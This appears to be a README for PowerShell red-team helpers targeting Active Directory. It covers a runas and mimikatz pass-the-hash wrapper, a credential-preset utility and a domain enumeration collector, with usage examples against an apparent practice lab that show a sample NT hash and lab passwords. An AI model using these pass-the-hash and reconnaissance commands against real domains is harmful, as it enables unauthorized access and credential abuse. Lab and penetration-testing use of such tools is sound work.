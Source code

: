 ## xrunas
Elementary script run runas or module pth mimikatz
### Usage
```powershell
xrunas -d essos.local -u khal.drogo -H 739120ebc4dd940310bc4bb5c9d37021
```
```powershell
xrunas -d essos.local -u khal.drogo -p horse
```
```powershell
xrunas -d essos.local -u khal.drogo -p horse -r powershell
```
```powershell
xrunas -d essos.local -u khal.drogo -H 739120ebc4dd940310bc4bb5c9d37021 -mpath "C:\Tools\mimikatz.exe"
```
### Help
```b1
-d -- domain
-u -- username
-p -- password
-H -- NT-hash
-m -- path to mimikatz (default:mimikatz.exe)
-r -- run program (default:pwsh)
```
## New-DomainPreset
Elementary script change default parameters (-Server, -Credential) by `$PSDefaultParameterValues` for ActiveDirectory (RSAT) module and some another commandlets.
Add another modules or cmdlets possible in utils.psm1
Also, set global variable `$creds.`
Expected, module ActiveDirectory installed else you can install with command:
```
Add-WindowsCapability -online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0
```
### Usage
```
New-DomainPreset -d essos.local -u daenerys.targaryen -p 'BurnThemAll!' -s meereen.essos.local -a
```
```
New-DomainPreset -d essos.local -u khal.drogo -p 'horse' -s meereen.essos.local -x
```
```
New-DomainPreset -l
```
```
New-DomainPreset -c 0
```
```
New-DomainPreset -f
```

### Help
```
-s [-Server]   Domain Controller IP or FQDN
-u [-UserName] Target domain account
-p [-Passwd]   Target password
-l [-List]     List history all presets used before
-c [-Choice]   Select preset used before
-f [-Flush]    Flush history all presets used before
-a [-Admin]    Mark new preset as most privileged
-x [-x]        Add PSDrive Active Directory (AD)
-h [-Help]     Print help message
```
![1](./images/1.png)

## Invoke-SimpleCollector
Collect some information about target domain and export to csv file for further export to Excel.
Obtain information:
- user accounts;
- machine accounts;
- default domain policy;
- Fine-Grained password policies.

### Usage
```powershell
New-DomainPreset -d essos.local -u khal.drogo -p 'horse' -s meereen.essos.local

Invoke-SimpleCollector
```
```powershell
Invoke-SimpleCollector -Credential $creds -Server meereen.essos.local
```
### Help
```
-s [-Server]     Domain Controller IP or FQDN
-c [-Credential] Credential
-f [-Folder]     Loot folder
```
![2](./images/2.png)
